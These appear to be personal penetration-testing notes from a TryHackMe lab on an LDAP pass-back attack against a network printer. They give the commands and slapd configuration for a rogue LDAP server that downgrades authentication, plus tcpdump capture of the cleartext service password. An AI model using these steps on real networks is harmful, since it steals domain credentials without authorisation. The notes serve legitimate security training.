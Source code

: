 # Passback Attacks

## LDAP

- Imagine we have a printer in the network. In the example on tryhackme we have access to the setting page. It has a login page so we can alter the Server IP and put ours instead  
![login page](../.res/2022-07-27-16-27-49.png) 
- `nc -lvp 389`
- We get a connection back when sending the form. The console shows `supportedCapabilitiesresponse`
- As mentioned in the room:  
"The `supportedCapabilitiesresponse` tells us we have a problem. Essentially, before the printer sends over the credentials, it is trying to negotiate the LDAP authentication method details. It will use this negotiation to select the most secure authentication method that both the printer and the LDAP server support. If the authentication method is too secure, the credentials will not be transmitted in cleartext. With some authentication methods, the credentials will not be transmitted over the network at all! So we can't just use normal Netcat to harvest the credentials. We will need to create a rogue LDAP server and configure it insecurely to ensure the credentials are sent in plaintext."

- `sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd`
- `sudo dpkg-reconfigure -p low slapd` to configure the LDAP server
- We then have to make a file `olcSaslSecProps.ldif`

```
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

- `sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart`

- `sudo tcpdump -SX -i eth0 tcp port 389` (we need to replace eth0 with the appropriate interface)
- And we should get the password, just like in the example from tryhackme :  
![password](../.res/2022-09-03-20-54-04.png)

{% embed url="https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/" %} A Pen Tester’s Guide to Printer Hacking {% endembed %}

## Resources

{% embed url="https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/" %} A Pen Tester’s Guide to Printer Hacking {% endembed %}  
{% embed url="https://tryhackme.com/room/breachingad" %} Breaching AD - TryHackMe{% endembed %}  
